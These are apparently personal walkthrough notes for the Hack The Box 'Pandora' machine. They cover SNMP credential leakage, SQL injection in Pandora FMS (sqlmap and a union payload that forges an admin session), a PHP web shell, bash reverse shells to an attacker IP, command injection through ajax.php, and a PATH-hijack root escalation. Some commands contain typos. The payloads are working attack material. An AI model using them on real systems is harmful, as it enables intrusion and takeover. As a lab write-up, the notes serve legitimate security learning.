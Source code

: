 - 10.10.11.136 leads to panda.htb web page
	- added to /etc/hosts
- nmap shows port 80 http and port 22 ssh
	```bash
nmap 10.10.11.136
nmap -sV -sT 10.10.11.136
```
	- Linux OS
	- Apache Server 2.4.41
- dirsearch finds assets subdirectory
	```bash
diresearch -u http://panda.htb
```
	- Assets shows a directory list with .svg images
		- maybe there is a file upload vulnerability?
			- XXE /XSSVulnerability
			- github link:
				https://github.com/makeplane/plane/security/advisories/GHSA-rcg8-g69v-x23j
				- The application allows users to upload SVG files as profile images without proper sanitization. SVG files can contain embedded JavaScript code that executes when the image is rendered in a browser. This creates an XSS vulnerability where malicious code can be executed in the context of other users' sessions.
				- How to upload file now..
- many loophles, the assets hold images, one of the images talks of plainadmin website. there are svg vulnerabilities. fuzzing and subdomain search is a bit difficult as pages return true always.
--------
- **But the key is to check udp ports for nmap**
	```bash
nmap -sU 10.10.11.136 #slower 
nmap -sU --min-rate=5000 10.10.11.136 #faster
```
## SNMP Enumration
- perform snmpwalk
	```bash
	snmpwalk -v 1 -c public 10.10.11.136
```
	- We find a username and password:
		```bash
iso.3.6.1.2.1.25.4.2.1.5.1101 = STRING: "-u daniel -p HotelBabylon23"
```
	- can ssh into machine as this user **but we cannot access user flag as its for user matt**
## More enumeration
- uname -a gives 
	- Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
- searchsploit pandora gives a bunch of exploits
- i found a ruby exploit but cant seem to transfer the file
- searching /var/www/
	- we find pandora extra folder with pandora console
	- this implies there maybe another virtual host
- search /etc/apache2/sites-available
	- we see in pandora.conf there is a locally hosted site
		- pandora.panda.htb hosted locally on 80
- **New technique**
	- now to get access to this site we need to forward it to our localhost via a port
	- ssh into daniel again but with -L to set a listener port which will forward this localhost to our machine's localhost ip
		```bash
ssh -L 9090:127.0.0.1:80 daniel@panda.htb
```
		- to check pass this command on your local machine to check if ssh is listening
			```bash
ss -lntp | grep "9090"
```
	- add pandora.panda.htb to localhost in /etc/hosts
	- access url via port 9090 to get login screen
----------
## Login Page Enumeration
- Googling the version of Pandora FMS v7.0NG.742_FIX_PERL2020
	- we find RCE exploit
		- https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/
			- sql database in there
			- in line 72 of _chart_generator.php_, the user input is fetched from the `$_REQUEST` superglobal which contains GET and POST parameters, as well as cookie values. The latter is probably the reason why `get_parameter()` was not used here. The user input **`$_REQUEST['session_id']`** is passed to the constructor of the class `PandoraFMS\User` without any sanitization.
			- chart generator is vulnerable
			- /include path : checked url and leads to a directory with chat_generator.php file
		- https://www.exploit-db.com/exploits/50961
- need to capture session id to use for sqlmap
	- since we know we attack the session id of chat_generator.php
		```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=' show datases or 1=1-- -
```
	- we get sql error showing its vulnerable to SQLi
## SQLMAP enumeration
- enumerate with sqli 
	```bash
	```bash
sqlmap -u "http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=*" --batch --level=5 --risk=3 -D pandora -T tsessions_php --dump
```
	- FIRST PASSWD --dbs, found a database, then --tables to find tables then --dump a table step by step
	- found matt session_id
		- added the session id to my url
		- went back to pandora.panda.htb:9090 and was logged in
		- however Im not admin so only limited functionality
----
- **ALTERNATE METHOD FOR admin access to page (binary analysis) HARD FIND**
	- checking the table again we see
		- id_usuario|s:6:"daniel"
		- somethign similar for matt
		- the s value represents the characters (daniel is 6 characters)
		- add this to url :
			```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?sessionid=' union select 1,2,'id_usuario|s:5:"admin";'-- -
```
	- we get no error message and refreshion pandora.panda.htb:9090 we get admin access
		- we try to upload php code into file manager (shows its in image directory so can url into pandora_console/images to see and execute)
		- Three methods:
			- upload pentest monkeys php reverse shell with creds and listen on port.
			- manually we can create a php code that calls a command line
				```php
<?php
system($_REQUEST['cmd']);
?>
```
				- Upload and open file in images directory
				- pass url to check if working
				```php
http://pandora.panda.htb:9090/pandora_console/images/shell.php?cmd=whoami
```
				- we get response matt
				- open burpsuite and capture this
					- change request type to post
					- pass this command at the bottom (a blank line in between the request and this)
					```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'
```
					- Select everything from after "cmd=" and press Ctrl+U to url encode and then send the packet while listening on port 9998.
						- we get reverse shell 
-----------
- **Another way to get reverse shell without admin access**
	- php ajax.php vulnerability
		- capture packets via burp suite as matt logs in
	- we find an ajax.php file
		- https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities
			- can execute exploit in this post request
				```bash
page=include/ajax/events&perform_event_response=10000000
&**target=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'&response_id=1
```
		- we also need to url encode it (Ctrl+U in Burp Suite)
			```bash
page=include/ajax/events&perform_event_response=10000000
&target=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.25/9997+0>%261'&response_id=1
```
		- have netcat listener listening on port 9997
			- to gain access at matt user
## Privilege escalation
- on enumerating we do 
	```bash
find / -type f -perm -4000 2>/dev/null
```
	- and we find pandora_backup with root priv
		- yet we cant execute it
		- this is due to a restricted shell
			- why? we tried sudo -l and it gave a weird error:
				```bash
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```
			- 
			- https://gtfobins.github.io/gtfobins/at/#shell
				- can use at to break of of restricted shell
				```bash
# tried but didnt work
```
		- alternatively, create a ssh key in your local machine and send it to target "
			```bash
python -m http.server:8001 # where you have the key
in target matchine /home/matt.ssh: wget 10.10.14.25:8001/matt.pub #get public key to .ssh directory
mv matt.pub authorized_keys
chmod 600 authorized_keys # VERY IMPORTANT
in local machine : chmod 600 matt
ssh -i matt matt@10.10.11.136 # should not get password prompt
```
		- then in shell create tar file and make it executable with /bin/bash as entry(why? if you look at pandora_backup which we want to execute, that is the command which gets use root)
		- create path to current directory
			```bash
echo /bin/bin > tar
chmod +x tar
export PATH=$(pwd):$PATH
echo $PATH # should show current direvtory first now
/usr/bin/pandora_backup
```
		- we gain root access
-------
## The Priv Esc exploit in pandora_backup
- on doing strings or Ghidra we can find the main code of pandora_backup
	```bash
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```
	- we create atar file with the command /bin/bash into it and make it executable. 
	- Furthermore we check the $PATH as thats what the command path checks when executing. We change this to our current directory 
		```bash
export PATH=$(pwd):$PATH
echo $PATH
```
	- then we execute pandora_backup which calls that command but since there is a tar executable in our current working directory.
	- since this runs as setuid it runs as root so hen /bin/bash is executed in our altered tar executable, it executes the root shell for us.

 testing
